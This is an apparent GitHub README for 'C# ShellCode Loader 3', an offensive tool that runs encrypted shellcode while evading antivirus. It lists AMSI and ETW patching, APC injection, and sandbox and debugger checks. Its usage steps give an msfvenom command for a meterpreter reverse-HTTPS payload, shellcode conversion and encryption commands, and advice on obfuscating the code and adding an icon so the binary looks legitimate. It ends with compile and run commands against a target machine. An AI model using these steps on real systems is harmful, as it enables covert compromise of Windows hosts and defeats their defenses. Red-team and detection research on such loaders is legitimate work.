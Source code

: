 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AES-256 Shellcode Encryption (CBC Mode)
  - AMSI bypass (patching 'AmsiScanBuffer')
  - ETW bypass (user-mode / patching 'EtwEventWrite')
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Shellcode Loader with file input support
    - the loader accepts a local text file containing an AES-256 encrypted and Base64-encoded C# shellcode as input.
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
--------
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o csharp_stageless-shellcode

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2.  Use the tool "Shellcode-Crypter-and-Encoder.exe" to encrypt your shellcode using AES-256, then encode the encrypted output in Base64 format and save the result to a file.
 ```
C:\Temp> Shellcode-Crypter-and-Encoder.exe
[*] Usage:
    > Shellcode-Crypter-and-Encoder.exe <path_to_C#_shellcode_file> <AES key>
[*] Example:
    > Shellcode-Crypter-and-Encoder.exe Csharp_shellcode.txt SuperAesKey > Encrypted_and_bas64encoded_shellcode.txt
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Etc.

  - STEP 4. Compile the C# shellcode loader  
    <i/> Note: Adding an icon file and assembly attributes can make your executable appear more legitimate. </i>
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    > csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Execute the shellcode loader on a target Windows server or laptop
```
[*] Usage :
    > loader.exe <domain name> <C:\filepath\Encrypted_and_bas64encoded_shellcode.txt> <AES key>
[*] Example:
    > loader.exe lab.local C:\temp\Encrypted_and_bas64encoded_shellcode.txt SuperAesKey
[*] Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0
